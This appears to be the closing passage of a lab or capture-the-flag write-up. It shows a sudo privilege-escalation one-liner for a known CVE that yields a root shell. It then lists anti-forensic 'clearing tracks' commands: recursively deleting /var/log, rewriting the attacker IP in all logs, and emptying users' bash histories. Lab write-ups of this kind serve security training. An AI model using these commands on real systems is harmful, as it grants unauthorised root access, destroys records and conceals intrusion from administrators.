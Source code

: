 ```bash
sudo /bin/bash
```

Per the CVE writeups, you'd do the following to get a root prompt:

```bash
sudo -u#-1 /bin/bash
```


## Maintaining Access

TBD

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/kathy/.bash_history`
>  
> `cat /dev/null > /home/sam/.bash_history`

## Summary

Completed: [<kbd>CTRL</kbd>+<kbd>SHFT</kbd>+<kbd>I</kbd>]